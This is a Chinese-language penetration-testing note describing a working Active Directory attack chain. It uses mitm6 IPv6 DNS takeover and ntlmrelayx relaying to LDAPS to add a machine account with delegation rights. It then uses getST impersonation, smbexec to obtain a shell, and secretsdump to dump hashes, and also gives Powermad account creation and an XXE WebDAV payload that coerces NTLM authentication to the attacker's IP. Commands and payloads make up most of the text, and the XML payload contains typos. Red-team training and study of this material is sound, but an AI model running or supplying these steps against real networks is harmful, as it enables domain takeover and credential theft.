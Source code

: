 ### Ntlmrelayx+资源受限委派
	域控需启用ldaps，域机器启用ipv6
	*当执行ntlmrelayx脚本时，遇到报错
![image](/assets/Pentest_Note/master/img/418.png)

	修改
	impacket/impacket/examples/ntlmrelayx/attacks/ldapattack.py ldapattack.py脚本，在510行上方加入
	if self.config.interactive: 
![image](/assets/Pentest_Note/master/img/419.png)

	再重新安装>python setup.py install
	使用mitm6通过ipv6接管dns服务器，配置好后开始请求网络的WPAD
	>mitm6 -i eth1 -d zone.com
![image](/assets/Pentest_Note/master/img/420.png)
	
	使用ntlmreplyx.py监听
	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --add-computer
	当目标重启网络、访问浏览器、重启电脑时会把攻击机视为代理服务器，当目标通过攻击机代理服务器访问网络时，攻击机将会向目标发送代理的认证请求，并中继NTLM认证到LDAP服务器上，完成攻击。
	这里要使用ldaps，因为域控会拒绝在不安全的连接中创建账户。
![image](/assets/Pentest_Note/master/img/421.png)

	可以看到已经成功添加了一个机器账户RFAYOVCC密码6YdX.NXqQGyuR7[
	使用此机器账户申请票据
	>python getST.py -spn cifs/sub2k8.zone.com zone.com/RFAYOVCC\$ -impersonate y
![image](/assets/Pentest_Note/master/img/422.png)

	>export KRB5CCNAME=y.ccache
	获取shell
	>python smbexec.py -no-pass -k sub2k8.zone.com
![image](/assets/Pentest_Note/master/img/423.png)

	dumphash、缓存hash
	>python secretsdump.py -k -no-pass sub2k8.zone.com
![image](/assets/Pentest_Note/master/img/424.png)

	当域控机器未启用LDAPS，并且已获得域普通用户权限时
	使用powermad创建一个机器账户newcom
	https://github.com/Kevin-Robertson/Powermad
	>New-MachineAccount -MachineAccount newcom -Password $(ConvertTo-SecureString '123qwe!@#' -AsPlainText -Force)
![image](/assets/Pentest_Note/master/img/425.png)

	或
![image](/assets/Pentest_Note/master/img/426.png)
![image](/assets/Pentest_Note/master/img/427.png)

	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --escalate-user newcom\$
![image](/assets/Pentest_Note/master/img/428.png)

	后续正常操作即可。
	内网存在java webdav时PROPPATCH、PROPFIND、 LOCK等请求方法接受XML作为输入时会形成xxe。攻击者要求采用NTLM认证方式是，webdav会自动使用当前用户的凭据认证。
	使用ntlmrelayx监听
	>python ntlmrelayx.py -t ldaps://dc.zone.com -debug -ip 10.1.1.101 --delegate-access --escalate-user newcom\$
	Burp发送xxe请求
	PROPFIND /webdav HTTP/1.1
	Host: 1.1.1.1
	
	<?xml version"1.0" encoding="UFT-8"?>
	<!DOCTYPE xxe [
	<!ENTITY loot SYSTEM "http://10.1.1.101"> ]>
	<D:xxe xmln:D="DAV:"><D:set><D:prop>
	<a xmlns="http://xx.e">&loot;</a>
	</D:prop></D:set></D:xxe>

